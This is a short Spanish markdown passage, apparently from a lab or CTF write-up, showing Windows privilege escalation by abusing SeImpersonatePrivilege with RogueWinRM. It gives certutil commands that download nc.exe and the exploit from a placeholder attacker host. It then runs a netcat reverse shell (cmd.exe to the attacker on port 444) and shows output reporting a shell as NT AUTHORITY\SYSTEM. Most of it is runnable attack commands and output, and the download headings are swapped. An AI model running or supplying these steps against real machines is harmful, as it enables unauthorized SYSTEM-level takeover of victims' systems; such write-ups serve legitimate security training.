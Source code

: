 ![20231108125556.png](20231108125556.png)

#### SeImpersonatePrivilege

Haciendo uso de este privilegio se puede llegar a ejecutar comandos

* Usaremos [RogueWinRM](https://github.com/antonioCoco/RogueWinRM/releases/tag/1.1)
* Descargamos los archivos en la maquina victima el `RogueWinRM` y el `nc.exe`
* RogueWinRM:

```java
C:\Users\Nekrotic\Documents>certutil -urlcache -f 'http://[IP-ATTACKER]/nc.exe nc.exe'
```

* nc.exe:

```java
C:\Program Files\FreeSWITCH>certutil -urlcache -f http://[IP-ATTACKER]/RogueWinRM.exe RogueWinRM.exe
```

Ahora ejecutamos

```java
RogueWinRM.exe -p "nc.exe" -a "-e cmd.exe [IP-ATTACKER] 444"
```

Demos de asegurarnos que nos ponga un `[+] CreateProcessWithTokenW OK`

```java
C:\Program Files\FreeSWITCH>.\RogueWinRM.exe -p "nc.exe" -a "-e cmd.exe [IP-ATTACKER] 444"
.\RogueWinRM.exe -p "nc.exe" -a "-e cmd.exe [IP-ATTACKER] 444"
Listening for connection on port 5985 .... 
Received http negotiate request
Sending the 401 http response with ntlm type 2 challenge
Received http packet with ntlm type3 response
Using ntlm type3 response in AcceptSecurityContext()
BITS triggered!
[+] authresult 
NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
C:\Program Files\FreeSWITCH>

```
